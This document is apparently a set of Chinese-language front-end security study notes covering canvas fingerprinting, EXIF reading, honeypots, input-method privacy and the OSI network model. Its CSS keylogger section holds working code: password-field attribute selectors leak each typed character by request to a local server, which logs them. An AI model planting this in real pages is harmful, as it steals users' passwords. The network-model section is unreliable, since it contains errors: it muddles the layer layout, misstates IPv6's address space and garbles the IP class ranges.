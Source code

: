 ### 网络安全

###

#### 1、canvas指纹追踪技术

```javascript
const uuid = () => {
    const canvas = document.createElement('canvas');
    const ctx = canvas.getContext('2d');
    const txt = '指纹追踪';
    ctx.fillText(txt, 10, 10);
    return canvas.toDataURL(); // 获取用户设备及操作系统
}
// 防止被跟踪
// 安装浏览器插件，随即修改canvas指纹的插件， CanvasFingerprintBlock 
// 原理：每次随机往canvas画布里注入一个随机的噪音（人肉眼是看不到的），从而影响bease64加密；
```

#### 2、css键盘记录器 - React

<pre>
    这种行为只存在于使用React/类React框架的页面中
    场景一般隐匿于第三方脚本当中，从而窃取你的密码。
    攻击手段利用css属性选择器，可以在加载background-image 通过url进行请求
    使用一个简单的脚本可以创建一个css文件，该文件将为每个ASCII字符发送一个自定义请求，
    因为react会设置value值。
</pre>

```css
/*css 脚本*/
input[type="password"][value$="0"] {
    background-image: url("http://localhost:3000/0")
}

input[type="password"][value$="1"] {
    background-image: url("http://localhost:3000/1")
}

input[type="password"][value$="2"] {
    background-image: url("http://localhost:3000/2")
}

input[type="password"][value$="3"] {
    background-image: url("http://localhost:3000/3")
}

input[type="password"][value$="@"] {
    background-image: url("http://localhost:3000/40")
}

/* ... */
```

```javascript
// 创建服务器并启动 监听键盘输入值
const express = require('express')
const app = express()
app.get('/:key', (req, res) => {
    process.stdout.write(`${req.params.key}\n`)
    res.sendStatus(200)
})
app.listen(3000, () => {
    console.log('listening on 3000')
})
```

#### 3、图片信息（EXIF) 可交换图像文件

<pre>
    EXIF是镶嵌在jpeg/tiff图像文件格式内的一组拍摄参数，需要注意的是EXIF信息不支持png,webp等格式。
    EXIF（图像文件格式）是一种图像文件格式，它允许图像文件包含有关图像拍摄条件和方式的有关信息。
    这些信息可以包括拍摄日期、拍摄地点、相机型号、白平衡、光圈、快门速度、ISO感光度等。
    这些信息可以被图像处理软件读取，并用于图像的编辑、调整、美化等操作。
    使用场景：
    勾选上传原图会将EXIF信息一起上传，在下载原图时，会自动下载包含EXIF信息的图片。
</pre>

```javascript
import EXIF from 'exif-js'

const img = document.getElementById('image');
img.onload = () => {
    EXIF.getData(img, function () {
        const exifData = EXIF.getAllTags(this);
        const res = EXIF.pretty(this);
        console.log(res);
        // 输出EXIF信息
        console.log(exifData);
    });
}
```

#### 4、蜜罐技术

<pre>
    蜜罐技术是一种防御性网络安全技术，用于检测、分析和响应网络攻击。
    蜜罐是一种虚拟的目标，用于诱捕和捕获网络攻击者的攻击行为。
    蜜罐技术通过部署一系列虚拟系统、网络设备、应用程序等，来模拟真实的目标系统，并将其暴露在互联网上。
    当攻击者试图攻击这些虚拟系统时，会被蜜罐捕获和记录下来，从而可以分析和检测攻击者的行为。
    蜜罐技术可以有效地保护真实的目标系统，并提高网络安全防护能力。
</pre>

#### 5、输入法

<pre>
     三方平台输入法
        1、百度输入法
        2、搜狗输入法
        3、讯飞输入法
        4、谷歌输入法
        5、微软输入法
    使用三方平台输入法，输入信息会被获取，导致信息泄露。例如在某宝上搜索某个商品，在某东或者某多上，你搜索的商品会被推送。存在信息安全隐患。
    解决方案：使用虚拟键盘（vant框架的虚拟键盘控件）。比如：支付密码时使用的虚拟键盘，防止密码被窃取。
</pre>

#### 6、网络模型

<pre>
        1.应用层
            1.1 应用层
                http、FTP、SMTP、DNS、Telnet、POP3、SNMP、SSH、HTTP2.0
            1.2 表示层
                JPEG、ASCII、DECOIC、加密
            1.3 会话层
                SSL、TLS
        2.传输层
            TCP、UDP
        3.网络层
            IP、ICMP、ARP、RIP等
        4.数据链路层
            MAC地址、ARP协议、RARP协议、VLAN、PPP协议、MTU、MAC地址、CSMA/CD、交换机、网桥、路由器
        5.物理层
            网线、网卡、集线器、中继器、网桥、交换机、路由器、网关、网桥、网卡、
</pre>

##### 1.应用层
<pre>
    应用层就是我们使用最多的一层，例如ajax调用接口发送http请求，再比如域名系统DNS，邮件协议SMTP，webSocket长连接，SSH协议
    应用层主要做的是数据的传输，例如发送一个http请求，发送一个邮件，发送一个文件，发送一个请求，接收一个响应。
</pre>

##### 2.表示层

<pre>
    表示层主要做了几件重要的事情 安全，压缩，也是程序在网络中的一个翻译官。
        1.安全 在你的数据发送之前进行加密，在接受者的表示层进行解密。
        2.表示层还会对图片文件等格式进行解码和编码 例如 JPEG、ASCll 图片是人类能读懂的计算机需要转换成计算机能读懂的编码。
        3.压缩 表示层还会对数据进行压缩，例如 GZIP、DEFLATE
</pre>

##### 3.会话层

<pre>
    会话层，是在发送方和接收方之间进行通信时创建、维持、之后终止或断开连接的地方，与电话通话有点相似。
    会话层定义了一种机制，允许发送方和接收方启动或停止请求会话，以及当双方发生拥塞时仍然能保持对话。
    会话层包含了一种称为检查点（Checkpoint） 的机制来维持可靠会话。检查点定义了一个最接近成功通信的点，
    并且定义了当发生内容丢失或损坏时需要回滚以便恢复丢失或损坏数据的点，即断点下载的原理
    会话层还定义了如何处理会话的启动、终止和恢复。
</pre>

##### 4.传输层
<pre>
    传输层主要就是定义我们的端口号，以及控流，和校验。
    并且拥有两个熟知的协议 TCP UDP
    TCP 是面向连接的协议并且TCP是可靠的
    因为TCP会进行三次握手四次挥手所以是可靠的，但是这样会降低速度
    UDP 具有较好的实时性 效率比TCP高
    UDP是没有三次握手四次挥手的，故此不稳定，但是速度快 常用于直播，游戏
    TCP 协议的校验机制 确保数据传输的完整性和准确性
    TCP 协议的流量控制机制 确保数据传输的有序性和稳定性
    TCP 协议的拥塞控制机制 确保数据传输的效率和稳定性
    TCP 协议的连接管理机制 确保数据传输的可靠性和安全性
    TCP 协议的错误恢复机制 确保数据传输的可靠性
</pre>

##### 5.网络层
<pre>
     网络层是最复杂的一层，在这一层就定义了我们的IP，220.xxx.xxx.xxx。
   该层控制数据链路层与传输层之间的信息转发，建立、维持和终止网络的连接。具体地说，数据链路层的数据在这一层被转换为数据包，
   然后通过路径选择、分段组合、顺序、进/出路由等控制，将信息从一个网络设备传送到另一个网络设备
    1.寻址：对网络层而言使用IP地址来唯一标识互联网上的设备，网络层依靠IP地址进行相互通信（类似于数据链路层的MAC地址）
    2.路由：在同一个网络中的内部通信并不需要网络层设备，仅仅靠数据链路层就可以完成相互通信，对于不同的网络之间相互通信则必须借助路由器等三层设备。
    我们的路由器就是在第三层工作的
    在数据链路层的时候说过了如果所有的使用互联网的用户在同一个网段中，会产生广播风暴，所以要将用户进行划分，让他们在不同的网段中，
    自己在自己的小网段中广播。而互联网就是这无数的子网络构成的一个巨型网络。
    在网络层中引入了一套新的地址，让我们能够区分不同的网段。这套地址就叫做“网络地址”，简称“网址”。
    于是，”网络层”出现以后，每台计算机有了两种地址，一种是MAC地址，另一种是网络地址。两种地址之间没有任何联系，MAC地址是绑定在网卡上的，
    网络地址则是管理员分配的，它们只是随机组合在一起。
    网络地址帮助我们确定计算机所在的子网络，MAC地址则将数据包送到该子网络中的目标网卡。
    因此，从逻辑上可以推断，必定是先处理网络地址，然后再处理MAC地址。
    这一层中有一个规定网络地址的协议，叫做IP协议，它所定义的地址，就被称为IP地址。目前，广泛采用的是IP协议第四版，简称IPv4。
    这个版本规定，网络地址由32个二进制位组成。因为IPv4的地址已经不够用了，所以现在推广IPv6，它的地址空间是IPv4地址空间的十亿倍。
    IP地址的格式：A.B.C.D
    A.B.C.D 分别代表A,B,C,D四个部分，每个部分是一个0-255之间的十进制数。
    IP地址的分类：
    A类地址：A类地址第一个字节的第一位固定为0，所以A类地址的网络号范围是0.0.0.0
    B类地址：B类地址第一个字节的前两位固定为10，所以B类地址的网络号范围是128.0.0.0
</pre>

##### 6.数据链路层
<pre>
    建立逻辑链接、进行硬件地址寻址、差错校验等功能。将比特组合成字节进而组合成帧，用MAC地址访问介质，错误发现但不能纠正。
    帧是用来移动数据的结构包，它不仅包括原始数据，还包括发送方和接收方的物理地址以及检错和控制信息。其中的地址确定了帧将发往何处，
    而纠错和控制信息则确保帧无差错到达。如果在传输数据时，接受点检测到所传数据中有差错，就要通知发送方重发这一帧。
    数据链路层将网络层交下来的IP数据报组装成帧，并添加必要的控制信息，以保证其传送到目的地。
    数据链路层在两个网络实体之间的传输实体是数据链路层本身，而不是IP层。
</pre>
##### 7.物理层
<pre>
    建立、维护、断开物理连接。
    主要定义物理设备标准，如网线的接口类型、光纤的接口类型、各种传输介质的传输速率等。
    它的主要作用是将比特流(就是有1、0转为电力强弱来进行传输，到达目的地后再转为1、0）。
    包括物理设备标准、机械标准、电气标准、功能、性能标准、技术指标、技术要求、传输medi等。
</pre>
